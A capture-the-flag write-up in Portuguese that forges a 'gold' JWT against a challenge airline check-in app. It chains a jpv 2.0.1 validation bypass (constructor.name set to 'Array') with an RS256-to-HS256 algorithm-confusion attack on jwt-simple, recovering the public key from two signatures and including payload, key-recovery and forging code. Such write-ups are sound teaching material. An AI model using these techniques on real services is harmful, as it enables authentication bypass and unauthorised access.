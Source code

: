 ## Overview

Temos uma aplicação web de check-in em uma companhia aérea. Existem dois endpoints: /checkin e /upgrades.

A função que recupera a flag é bem óbvia e é mostrada no código a seguir, que é uma requisição do tipo POST para /upgrades/flag:

```js
router.post('/flag', [getLoyaltyStatus], function(req, res, next) {
  if (res.locals.token && res.locals.token.status == "gold") {
    var response = {msg: config.flag };
  } else {
    var response = {msg: "You do not qualify for this upgrade at this time. Please fly with us more."};
  }
  res.json(response);
});
```

Com isso, percebe-se que uma manipulação no token de acesso já nos daria acesso a ela.

Observando as dependências da aplicação, vemos uma versão vulnerável da biblioteca de verificação JPV (JSON Pattern Validator) e também uma versão de jwt-simple desatualizada. Explorando as vulnerbilidades é possível forjar um JWT, alterando o status do passageiro para "gold" e permitindo o acesso à flag.

## Vulnerabilidade JPV 2.0.1

A biblioteca jpv tem como intuito validar inputs de usuário comparando com patterns definidos a priore.

Os seguintes padrões são definidos:

```js
const pattern = {
  firstName: /^\w{1,30}$/,
  lastName: /^\w{1,30}$/,
  passport: /^[0-9]{9}$/,
  ffp: /^(|CA[0-9]{8})$/,
  extras: [
    {sssr: /^(BULK|UMNR|VGML)$/},
  ],
};
```

Porém, na linha 42 de checkin.js existe a verificação ```data["extras"][e]["sssr"] == "FQTU"```
que caso seja verdadeira vaza um token JWT.

Para satisfazer essa verificação e bypassar a validação do jpv, exploramos a vulnerabilidade definida em: https://github.com/manvel-khnkoyan/jpv/issues/6.

A validação do campo extras é feita com um pattern que espera um array de objetos com sssr cujo valor seja uma das strings BULK, UMNR ou VGML. Na prática, em jpv@2.0.1 a verificação de "é array?" foi implementada de forma insegura: a biblioteca checa algo como ```obj.constructor.name === 'Array'``` (ou similar), o que é contornável porque, em JavaScript, o campo constructor de um objeto é mutável (ou é possível fornecer um objeto com ```constructor.name = "Array"```).

Utilzamos um payload como o seguinte:

```js
    "firstName": "Algum",
    "lastName": "Nome",
    "passport": "123456789",
    "ffp": "CA12345678",
    "extras": {
        "x": {
            "sssr": "FQTU"
        },
        "constructor": {
            "name": "Array"
        }
    }
```

Com isso conseguimos vazar tokens diferentes apenas alterando o valor do campo "passport" ou "ffp".

## Vulnerabilidade jwt-simple (algorithm confusion / key misuse)

O JWT tem um campo "alg" no header que indica o algoritmo usado na assinatura (RS256, HS256, etc). RS256 usa RSA (chave privada para assinar, pública para verificar). Já o HS256 usa HMAC-SHA256 (um segredo simétrico compartilhado). No caso desse desafio, está sendo utilizada o algoritmo RS256 como é possível verificar no arquivo ckeckin.js:

```js
function createToken(passport, frequentFlyerNumber) {
  var status = isSpecialCustomer(passport, frequentFlyerNumber) ? "gold" : "bronze";
  var body = {"status": status, "ffp": frequentFlyerNumber};
  return jwt.encode(body, config.privkey, 'RS256');
}
```

Porém, em upgrade.js o token é decodificado assim:

```js
function getLoyaltyStatus(req, res, next) {
  if (req.headers.authorization) {
    let token = req.headers.authorization.split(" ")[1];
    try {
      var decoded = jwt.decode(token, config.pubkey);
    } catch {
      return res.json({ msg: 'Token is not valid.' });
    }
    res.locals.token = decoded;
  }
  next()
}
```

Ou seja, ```jwt.decode(token, key)``` está sendo chamado sem restringir o algoritmo e a chave utilizada é config.pubkey (a chave pública). Em jwt-simple@0.5.2, se o token declara "alg: HS256", a biblioteca tratará config.pubkey como o segredo para HMAC e aplicará HMAC-HS256 para verificar o token, o que é aceitável para jwt-simple, já que ela não valida se a chave é adequada ao algoritmo declarado.

Assim, se soubermos a chave pública (ou a reconstruirmos), podemos criar um JWT com "alg: HS256" e assinar com HMAC-SHA256(secret = PEM_pubkey). O servidor usará o mesmo config.pubkey na verificação e aceitará o token, pois o algoritmo no header foi HS256. Assim transformamos um token de verificação assimétrica (RS256) num token simétrico (HS256) que podemos fabricar localmente.

Continuando, com dois tokens vazados temos recursos para calcular a chave pública a partir da assinatura dos tokens. O algoritmo RS256, após realizar algumas operações de hashing sobre os headers e payload do token em base64 e fazer o padding utilizando o algoritmo PKCS#1 v1.5 (iremos chamar o valor resultante de "pt"), realiza a clássica operação RSA com a assinatura:

```
sig = pt^d mod n  // d = expoente privado
```

A verificação é feita com ```sig^e mod n == pt (mod n)```.

Para encontrar o valor do módulo n e recuperar a chave pública original, usamos uma função auxiliar get_magic() com valores de "e" arbitrários (nesse caso testamos apenas os valores mais comuns e encontramos que foi utilizado o clássico valor 65537):

```python
def get_magic(jwt_token: str, e: int) -> gmpy2.mpz:
    """
    Calcula o valor sig**e - pt para um JWT assinado com RS256.
    """
    header, payload, signature = jwt_token.split(".")
    raw_signature = urlsafe_b64decode(f"{signature}==")
    raw_signature_int = gmpy2.mpz(bytes_to_long(raw_signature))

    padded_msg = pkcs1_v1_5_encode(f"{header}.{payload}".encode(), len(raw_signature))
    padded_int = gmpy2.mpz(bytes_to_long(padded_msg))

    return gmpy2.mpz(pow(raw_signature_int, e) - padded_int)
```

Temos assim um possível k*n (sendo k um número inteiro qualquer). Com os dois tokens diferentes conseguimos tirar o gcd e descobrir o valor do módulo n, tornando possível a recuperação da chave pública:

```python
pubkey = RSA.construct((int(N), int(e)))
pem_rsa = pubkey.export_key()
print("\nChave pública PEM:")
print(pem_rsa)
```

Agora com a chave pública podemos montar o nosso token final. Para conseguir utilizar a chave pública sem saber a chave privada, mudamos o algoritmo de criptografia de RS256 para HS256 no header do JWT.

```{"alg": "HS256", "typ": "JWT"} ```

Testamos também mudar o "alg" para "none" como descrito em https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries, porém sem sucesso.

Assim, utilizamos a chave RSA do formato PEM como string literal para assinar o token forjado com o algoritmo HS256 e alteramos o payload para o status "gold":

```python
message = f"{header_b64}.{payload_b64}"
signature = hmac.new(pem_rsa, message.encode(), hashlib.sha256).digest()
signature_b64 = b64url_encode(signature)
jwt_hs_token = f"{message}.{signature_b64}"
```

Com isso conseguimos forjar um token JWT que passa por todas as verificações e retorna a flag ao enviá-lo para o endpoint /upgrades/flag com uma requisição POST.

```python
headers = {"Authorization": f"Bearer {jwt_hs_token}"}
res = requests.post(f"{URL_BASE}/upgrades/flag", headers=headers).json()
print("\nResposta do servidor:")
print(res)
# FLAG{flag_teste}
```
